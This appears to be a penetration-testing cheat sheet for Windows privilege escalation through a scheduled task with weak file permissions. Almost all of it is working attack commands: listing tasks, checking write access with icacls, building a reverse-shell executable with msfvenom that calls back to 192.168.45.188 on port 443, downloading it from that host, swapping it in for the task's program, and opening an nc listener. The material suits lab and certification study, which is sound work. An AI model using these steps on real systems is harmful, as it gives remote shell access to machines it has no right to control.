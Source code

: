 # Find tasks
```bash
schtasks /query /fo LIST /v
```
-----------------------

# Vulnerable task exploiting

```bash
# Check permissions we need F or M
icacls C:\Users\steve\Pictures\example.exe

# Create payload
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.188 LPORT=443 -f exe -o example.exe

# Transfer payload
iwr -uri http://192.168.45.188/example.exe -Outfile example.exe

# Put shell on correct path
move .\example.exe C:\Users\steve\Pictures\example.exe

# Start listener
rlwrap nc -lvnp 443
```
